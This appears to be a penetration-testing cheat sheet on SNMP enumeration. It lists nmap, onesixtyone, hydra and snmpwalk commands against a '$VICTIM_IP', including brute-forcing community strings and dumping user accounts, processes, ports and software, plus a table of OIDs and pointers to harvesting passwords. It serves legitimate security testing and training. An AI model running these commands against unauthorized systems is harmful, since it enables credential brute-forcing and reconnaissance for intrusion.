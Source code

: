 Basic SNMP enumeration:

```sh
# nmap snmp scan
nmap --script "snmp* and not snmp-brute" $VICTIM_IP

# quick bruteforce snmp community strings with onesixtyone
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt $VICTIM_IP -w 100

# extended bruteforce snmp community strings with hydra
hydra -P /usr/share/seclists/Discovery/SNMP/snmp.txt -v $VICTIM_IP snmp

# comprehensive enumeration (system/network/process/software info)
snmp-check $VICTIM_IP

# basic enumeration with onesixtyone, using default 'public' community string
onesixtyone $VICTIM_IP public

# getting system description (like uname -a on Linux systems)
snmpwalk -v2c -c public $VICTIM_IP SNMPv2-MIB::sysDescr
snmpget -v2c -c public $VICTIM_IP SNMPv2-MIB::sysDescr.0

snmpwalk -c public -v2c $VICTIM_IP 1.3.6.1.4.1.77.1.2.25 # users
snmpwalk -c public -v2c $VICTIM_IP 1.3.6.1.2.1.25.4.2.1.2 # processes
snmpwalk -c public -v2c $VICTIM_IP 1.3.6.1.2.1.6.13.1.3 # ports
snmpwalk -c public -v2c $VICTIM_IP 1.3.6.1.2.1.25.6.3.1.2 # software
snmpwalk -c public -v2c $VICTIM_IP HOST-RESOURCES-MIB::hrSWInstalledName # software

# get ALL info available on SNMP
snmpwalk -v2c -c public $VICTIM_IP
```

Useful SNMP OIDs:

| OID Value              | Info Provided    |
| ---------------------- | ---------------- |
| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path   |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units    |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name    |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts    |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports  |

Look [here](https://www.rapid7.com/blog/post/2016/05/05/snmp-data-harvesting-during-penetration-testing/) for some other ideas on getting juicy data from SNMP:

- Email addresses
- SNMP community strings
- Password hashes
- Clear text passwords
